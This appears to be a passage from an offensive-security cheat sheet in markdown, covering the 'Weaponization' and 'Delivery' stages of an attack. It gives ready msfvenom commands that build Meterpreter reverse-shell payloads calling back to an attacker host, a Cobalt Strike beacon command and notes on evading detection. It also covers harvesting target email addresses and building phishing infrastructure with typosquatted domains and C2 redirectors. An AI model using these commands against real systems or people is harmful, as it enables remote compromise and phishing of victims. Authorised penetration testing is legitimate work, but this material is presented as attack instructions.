 
## Weaponization

### Payload Development
Create custom payloads to evade detection:

#### Metasploit Framework
```bash
# Generate Windows payload
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -f exe -o payload.exe

# Generate Linux payload
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -f elf -o payload.elf

# Generate PowerShell payload
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -f powershell -o payload.ps1
```

#### Cobalt Strike
```bash
# Generate beacon payload
generate -o payload.exe -x64 -b dns -d target.com
```

### Custom Implants
- **C2 Frameworks**: Cobalt Strike, Empire, Covenant, Sliver
- **RATs**: Remote Access Trojans for persistent access
- **Droppers**: First-stage payloads for delivering main implants
- **Living off the Land**: PowerShell, WMI, certutil, bitsadmin

---

## Delivery

### Spear Phishing
Targeted email attacks against specific individuals:

#### Email Reconnaissance
```bash
# Gather email addresses
theHarvester -d target.com -l 500 -b all
hunter.io
phonebook.cz
```

#### Phishing Infrastructure
- **Domain Registration**: Typosquatting, homograph attacks
- **Email Server**: Postfix, SendGrid, AWS SES
- **SSL Certificates**: Let's Encrypt for HTTPS
- **Redirectors**: Hide C2 infrastructure

